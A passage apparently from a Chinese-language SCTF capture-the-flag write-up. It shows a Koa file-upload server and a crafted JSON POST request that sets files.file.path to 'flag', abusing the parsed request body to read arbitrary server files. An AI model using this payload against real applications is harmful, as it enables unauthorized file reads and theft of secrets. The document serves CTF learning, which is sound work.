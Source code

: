 ```javascript=
  const reader = fs.createReadStream(file.path);
  let fileId = crypto.createHash('md5').update(file.name + Date.now() + SECRET).digest("hex");
  let filePath = path.join(__dirname, 'upload/') + fileId
  const upStream = fs.createWriteStream(filePath);
  reader.pipe(upStream)
  return ctx.body = "Upload success ~, your fileId is hereï¼" + fileId;
});


router.get('/downloadfile/:fileId', async (ctx, next) => {
  let fileId = ctx.params.fileId;
  ctx.attachment(fileId);
  try {
    await send(ctx, fileId, { root: __dirname + '/upload' });
  }catch(e){
    return ctx.body = "SCTF{no_such_file_~}"
  }
});


router.get('/', async (ctx, next) => {
  ctx.response.type = 'html';
  ctx.response.body = fs.createReadStream('index.html');
  
});

app.use(router.routes());
app.listen(3333, () => {
  console.log('This server is running at http://localhost:' + 3333)
})

```
因为koa中访问参数也是ctx.request.body.xxxx 所以我们可以构造
```
POST /uploadfile HTTP/1.1
Host: 127.0.0.1:3333
Content-Length: 77
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:3333
Referer: http://127.0.0.1:3333/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"files":{"file":{"path":"flag"}}}
```
来进行任意文件读取
